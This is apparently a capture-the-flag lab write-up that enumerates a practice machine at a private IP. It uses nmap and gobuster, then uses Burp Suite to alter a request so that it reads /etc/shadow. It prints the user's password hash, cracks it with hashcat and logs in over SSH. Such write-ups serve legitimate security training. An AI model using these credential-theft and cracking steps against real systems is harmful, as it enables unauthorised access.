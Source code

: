 
## **Enumeration**
>	- Using `nmap` to scan the machine for services and their versions.
```
nmap -sV 10.10.23.187
```
>	![](nmap-out.png)
>	- Accessing the website on port `80`.![](website.png)
>	- From `Note 3`, Charlie's holiday is going to be in `Hawaii`
>	- Use `gobuster dir -u http://10.10.23.187:80/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` to search for hidden directories.
>	- Nothing interesting found.
>	- Inspect the source code, a script can be seen.![](web-script.png)
>	- Open up `burpsuite` to intercept and manipulate traffic.![[burpsuite-1.png]]
>	- Changing this request to `GET` the `/etc/shadow` file.![](burpsuite-2.png)
>	- ![](burpsuite-3.png)
>	- Charlie's hash can be found `charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::`
>	- Using `hashcat -m 1800 charlie-hash /usr/share/wordlists/rockyou.txt` to crack it.
>		- `-m`: specifies the hash type, which in this case `1800` which is `SHA-512`
>	- ![](pass-cracked.png)
>	- The credentials are `charlie:password1`.
>	- Accessing the server using `ssh charlie@10.10.23.187` and the found password.![](flag.png)